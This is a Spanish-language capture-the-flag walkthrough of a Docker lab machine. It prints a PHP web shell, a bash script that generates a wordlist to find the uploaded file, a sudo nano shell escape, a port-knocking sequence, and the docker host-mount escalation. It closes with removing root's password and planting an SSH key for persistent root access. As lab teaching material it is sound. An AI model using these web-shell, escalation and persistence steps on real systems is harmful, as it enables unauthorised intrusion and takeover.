



Tags: #bashScripting #knock #Portknocking #ssh #Docker
______
comenzamos la maquina aplicando los escaneos típicos de nmap, y nos reportan lo siguiente.
_____

______
tenemos dos puertos abiertos, 22 (ssh) y 80 (http) por lo que investigaremos el puerto 80 para ver que encontramos.
____

_____
tenemos la pagina de apache2 de cuando esta recién instalado, nos dispones a revisar el código fuente pero no tenemos éxito al no encontrar nada solido.

nos disponemos a aplicar fuzzing para ver que encontramos.
_____

______
tenemos un directorio, al cual vamos a investigar.
____

_____
podemos subir un archivo, sabemos que la pagina interpreta codigo php, por lo que haremos un exploit con este lenguaje el cual por medio de la url nos permitirá ejecución de comandos.

pero tenemos una problema, cuando se sube el archivo nos aparece lo siguiente.
____

____
su nombre es alterado, lo que complica su localización. En algunos casos, el mensaje de confirmación de la subida puede darnos pistas sobre el nombre modificado del archivo. Por ejemplo, si el mensaje nos indica que el archivo ha sido renombrado a `xxx_tuarchivo`, podemos deducir que el nombre del archivo contiene un prefijo variable representado por "xxx".

Para encontrar el archivo exacto, podemos aplicar fuzzing, que consiste en probar múltiples combinaciones posibles para reemplazar las "xxx" y así determinar el nombre correcto del archivo. Esto se puede hacer utilizando diccionarios predefinidos de palabras o patrones.

### Selección del Diccionario para Fuzzing

Es crucial elegir el diccionario adecuado para maximizar las probabilidades de éxito en el fuzzing. Aunque he probado diferentes diccionarios de la colección Seclists, algunos de ellos pueden no haber sido adecuados para este caso específico. Para seleccionar el diccionario correcto, considera lo siguiente:

1. **Contexto del Prefijo**: Intenta deducir si el prefijo "xxx" podría tener algún patrón específico, como ser una combinación de letras, números, o caracteres especiales. Esto puede guiarte en la elección del diccionario.
 
2. **Creación de un Diccionario Personalizado**: Si ninguno de los diccionarios estándar funciona, considera crear uno propio basado en patrones específicos que observes en el entorno.

al utilizar los diccionarios de seclist uno que otro me dio el siguiente error, el cual pensaba que estaba mal.

así que cree un script en bash que me generaría un diccionario para maximizar aun mas el fuzzing

```bash
#!/bin/bash

diccionario=$(echo -e {a..z}{a..z}{a..z} | tr " " "\n")
palabra="_exploit.php"

for i in $diccionario; do
    echo $i$palabra >> diccionario.txt
done
```

Este código Bash genera un diccionario de nombres de archivo y lo guarda en un archivo de texto. Específicamente, crea combinaciones de tres letras minúsculas (de 'aaa' a 'zzz'), las concatena con la cadena `_exploit.php`, y guarda cada combinación resultante en un archivo llamado `diccionario.txt`.

al probar el diccionario creado obtuve lo siguiente.
______

_____
tenemos el nombre del archivo, el archivo contiene el siguiente codigo.

```php
<?php
	system($_GET['cmd']);
?>
```

el cual nos permitirá ejecutar comandos desde la url.
______

_____
ahora podemos enviarnos una reverse shell y ganar acceso al sistema.
____

____
ya que tenemos acceso a la maquina, aplicamos el tratamiento de la tty y nos disponemos a enumerar usuarios y formas potenciales de escalar privilegios.

si aplicamos sudo -l veremos lo siguiente.
______

_____
podemos ejecutar nano como el usuario firsthacking, ya este metodo de escalada de privilegios lo he visto muchas veces.

tenemos que ejecutar el nano como el usuario firsthacking de la siguiente forma.

```bash
sudo -u firsthacking /usr/bin/nano
```

y una vez dentro de nano tenemos que aplicar lo siguiente.

```shell
R^X^ (CTRL+R - CTRL+X)
reset; bash 1>&0 2>&0
```

al aplicar las primeras combinaciones de letras se nos abrirá un apartado donde podremos ejecutar codigo.
_____

____
ejecutamos el comando y ahora somo el usuario
_____

_____
si aplicamos un sudo -l veremos lo siguiente.
____

_____
tenemos que podemos ejecutar docker como root sin contraseña, se pensaría que podríamos escalar privilegios así nomas, pero no es tan sencillo, puesto que si ejecutamos el docker nos aparece lo siguiente.
_____

____
indicando que el cliente Docker no puede comunicarse con el demonio Docker.

por lo que debemos buscar una forma de levantar el servicio de docker o simplemente buscar otra forma de escalar privilegios.

si listamos los procesos del sistema, veremos lo siguiente.
_____

______
tenemos que root esta ejecutado knock, lo buscamos en la web y nos aparece lo siguiente.

Port knocking es un método de seguridad que permite abrir y cerrar los puertos que controla un firewall. Mediante una combinación de consultas a puertos, a modo de caja fuerte, el firewall abre el puerto deseado.

y se configura de la siguiente forma.

- **Lado del Servidor**: Configuras el servidor para que reconozca una secuencia específica de golpes en ciertos puertos. Cuando se recibe esta secuencia correcta, el servidor abrirá un puerto específico (como el puerto SSH) para permitir una conexión.
    
- **Lado del Cliente**: Utilizas el comando `knock` para "golpear" la secuencia de puertos configurada en el servidor. Si la secuencia es correcta, el servidor abrirá el puerto deseado, permitiéndote conectarte.

entonces por lógica el que knock este corriendo en el sistema y lo este ejecutando root, es porque existen puertos ocultos y debemos realizar un golpe de puertos para ver que puerto se nos abre.

si buscamos en el directorio del usuario firsthacking encontraremos lo siguiente.
_____

_____
nos dice que utilicemos las funciones del bashrc por lo que veremos que hay dentro de sus funciones.
____

_____
tenemos lo que parecen ser puertos y nos dice que tenemos que llamar, haciendo alusión al Port knocking o golpe de puertos.

por lo que del lado de nuestra maquina atacante haremos el golpeo de puertos utilizando knock.

```shell
knock 172.17.0.2 12345 54321 24680 13579 -v
```

y veremos que puerto nos abre.
____

______
si hacemos un pstree -p veremos los servicios nuevos de docker.
___

_____
y si hacemos un docker ps ya nos funciona correctamente, ahora si podríamos ver la forma de escalar privilegios con docker.

si buscamos en GTFOBins podremos ver lo siguiente.
_____
```bash
sudo docker run -v /:/mnt --rm -it alpine chroot /mnt sh
```

este comando ejecuta una shell (`sh`) dentro de un contenedor Docker, pero con el sistema de archivos del host montado como la raíz del sistema de archivos del contenedor. Esto permite que el contenedor tenga acceso total al sistema de archivos del host, lo que puede ser útil para editar el passwd o configurar una authorized_keys ademas de otras cosas.

aquí elegimos la forma de escalar privilegios, si elegimos la mas facil que seria editar el passwd, para que no se nos pida contraseña al querer convertirnos en root.
_____

____
le quitamos la x a root, y si hacemos un su root ya podremos ser root en la maquina victima.

también veremos la configuración de la authorized_keys.
_____
### 1. Generar la clave SSH en la máquina atacando

1. Genera una clave SSH:
   ```bash
   ssh-keygen -t rsa
   ```
   Por defecto, esto generará un par de claves (`id_rsa` y `id_rsa.pub`) en el directorio `~/.ssh`. Si deseas guardarlas en un lugar específico, puedes especificar la ruta completa.

### 2. Ver el contenido de la clave pública

2. Muestra el contenido de la clave pública:
   ```bash
   cat ~/.ssh/id_rsa.pub
   ```
   Esto imprimirá una larga cadena que representa tu clave pública. Copia este contenido.

### 3. Configurar el archivo `authorized_keys` en la máquina objetivo

3. Accede a la máquina objetivo (la máquina donde deseas configurar el acceso SSH) y abre una terminal.

4. Navega al directorio `.ssh` del usuario `root`:
   ```bash
   cd /root/.ssh
   ```
   Si el directorio no existe, créalo con:
   ```bash
   mkdir -p /root/.ssh
   chmod 700 /root/.ssh
   ```

5. Añade la clave pública copiada al archivo `authorized_keys`:
   ```bash
   echo 'TU_CLAVE_PUBLICA' >> /root/.ssh/authorized_keys
   ```
   Reemplaza `TU_CLAVE_PUBLICA` con el contenido que copiaste del archivo `id_rsa.pub`.

6. Asegúrate de que los permisos del archivo `authorized_keys` sean correctos:
   ```bash
   chmod 600 /root/.ssh/authorized_keys
   ```

### 4. Conectarse a la máquina objetivo desde la máquina atacante

7. En la máquina atacante, asegúrate de estar en el directorio donde se encuentra tu clave privada (`id_rsa`):
   ```bash
   cd ~/.ssh
   ```

8. Conéctate a la máquina objetivo usando SSH y la clave privada:
   ```bash
   ssh -i id_rsa root@172.17.0.2
   ```
   Reemplaza `172.17.0.2` con la dirección IP de tu máquina objetivo.

Siguiendo estos pasos, deberías poder configurar el acceso SSH utilizando la clave pública en el archivo `authorized_keys`

De esta forma obtenemos acceso a la maquina victima por ssh sin proporcionar contraseña.
_____

